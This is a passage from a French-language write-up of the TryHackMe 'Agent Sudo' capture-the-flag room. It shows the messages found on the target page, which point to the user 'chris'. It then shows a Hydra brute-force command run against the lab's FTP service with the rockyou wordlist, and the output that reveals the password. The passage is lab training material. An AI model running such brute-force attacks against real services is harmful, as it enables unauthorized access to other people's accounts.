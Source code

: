 ```bash
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>
C
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

D'après le message ci-dessus il y a un agent qui rapporté un accident d'après ce que l'on comprend les noms des agents sont les lettres de l'alphabet.  
On code un scrip qui énumère toutes les solutions.  
A la lettre C on a le non de l'agent qui est chris.  

Réponse : chris 

## Task 3 Hash cracking and brute-force ##

**FTP password**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agent-sudo.thm -t 12
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-19 09:47:54
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 12 tasks per 1 server, overall 12 tasks, 14344399 login tries (l:1/p:14344399), ~1195367 tries per task
[DATA] attacking ftp://agent-sudo.thm:21/
[STATUS] 199.00 tries/min, 199 tries in 00:01h, 14344200 to do in 1201:22h, 12 active
[21][ftp] host: agent-sudo.thm   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-19 09:49:23
```

On crack le mot de passe avec Hydra.  
On trouve le mot passe.  

Réponse : crystal  

